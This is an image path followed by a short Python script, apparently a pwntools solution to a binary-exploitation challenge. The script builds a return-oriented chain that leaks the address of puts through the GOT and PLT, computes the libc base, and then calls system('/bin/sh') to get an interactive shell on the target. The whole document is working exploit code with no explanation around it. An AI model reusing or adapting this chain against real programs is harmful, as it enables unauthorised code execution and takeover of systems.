 ```python

payload=bug(0x650,m)
payload+=p64(puts_got)
payload+=p64(puts_plt)
payload+=p64(m)
p.send(payload)
sleep(1)

payload=bug(0x900,pop_rdi)
p.send(payload)
p.recvline()
leak=p.recvline().rstrip()
libc.address=u64(leak.ljust(8,b"\x00"))-libc.symbols["puts"]
print("libc_base: ",hex(libc.address))
payload=bug(0x850,m)
payload+=p64(next(libc.search(b'/bin/sh')))
payload+=p64(ret)
payload+=p64(libc.symbols["system"])
sleep(1)
p.send(payload)
sleep(1)
payload=bug(0x700,pop_rdi)
p.send(payload)

p.interactive()

```